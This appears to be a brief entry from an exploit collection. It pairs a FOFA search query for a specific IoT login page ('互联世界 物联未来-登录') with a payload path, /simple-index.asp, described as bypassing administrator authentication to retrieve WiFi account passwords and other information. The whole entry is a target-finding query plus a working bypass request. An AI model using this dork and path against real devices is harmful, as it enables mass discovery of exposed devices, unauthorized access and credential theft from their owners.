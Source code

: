 <languages />

FOFA
----

    title="互联世界 物联未来-登录"

Payload
-------

    /simple-index.asp

<translate> 越過管理員驗證獲取Wifl賬號密碼等信息 </translate>
